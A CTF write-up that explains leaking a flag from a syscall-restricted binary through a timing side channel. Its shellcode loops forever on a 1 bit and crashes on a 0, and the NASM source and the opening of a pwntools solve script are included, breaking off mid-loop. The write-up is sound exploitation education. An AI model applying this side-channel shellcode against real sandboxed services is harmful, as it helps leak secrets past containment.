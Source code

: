 The main difficulty with this challenge is data exfiltration. We know what the flag is, but have no real way of directly communicating it (or at least one I could figure it out). This is because `stdin`, `stdout`, and `stderr` and with our restricted syscalls we don't have a way to open up a new file descriptor (at least any way I could tell while solving it). That is when a team mate of mine came up with an idea to do a timing attack. 

Also it checks for the flag in the `/flag` file (can be seen in the `getFlag` function).

### Timing Attack

Thing is we can't directly communicate data. However we can keep exit the process, which will close the pipe we use to talk to the binary. What I ended up doing (thanks to a suggestion from a Nasa Rejects team mate) was write some shellcode that would evaluate the flag one bit at a time. If the bit was 0, I would crash the binary by having execution go past the shellcode. If the bit was 1 then the shellcode would enter into an infinite loop (there is a timer that will kill the process after a couple of seconds). So if the connection immediatley ends I know it's a 0, and if the connection stays open for a couple of seconds I know it is a 1.

This is the shellcode that I used to do this:
```
[SECTION .text]
global _start
_start:
	mov cl, byte [rdi + 0]
	shr cl, 7
	and cl, 1
	cmp cl, 1
	jz -5
	nop
```

Essentially it would grab the current byte I'm leaking bits from, shift it over the amount of bits I need for the current bit, then and it by `0x1` to get that single bit. Following that it compares the `cl` register by `1`, and if so it will enter into an infinite loop with `jz -5` (which will just jump to the beginning of that instruction, and thus repeat until the time ends). If the bit is 0 then execution will go past my shellcode and inevitably crash.

Now at this point there was like 30 minutes left in the competition. TobalJackson (you can find his blog here: https://binarystud.io/) who I was working with throughout this entire challenge. Towards the end once we figured out how to leak the flag, we decided to try both automating it and doing it by hand since due to the time constraints we weren't sure if either method would be done in time.

Here is the script that TobalJackson made to solve this challenge:

```
#!/usr/bin/env python
from pwn import *
from IPython import embed
from datetime import datetime as dt

DEBUG = True


def main():
    #    8a 4f 01             mov    cl,BYTE PTR [rdi+0x1]
    #    c0 e9 07             shr    cl,0x7
    #    80 e1 01             and    cl,0x1
    #    80 f9 01             cmp    cl,0x1
    #    0f 84 f7 ff ff ff    je     400089 <_start+0x9>
    #    90                   nop
    shellcode = "\x8a\x4f{}\xc0\xe9{}\x80\xe1\x01\x80\xf9\x01\x0f\x84\xf7\xff\xff\xff\x90"
    shellcode2 = "\x8a\x4f{}\x80\xe1\x01\x80\xf9\x01\x0f\x84\xf7\xff\xff\xff\x90"

    bytePos= 1
    bitPos = 0

    while True:
```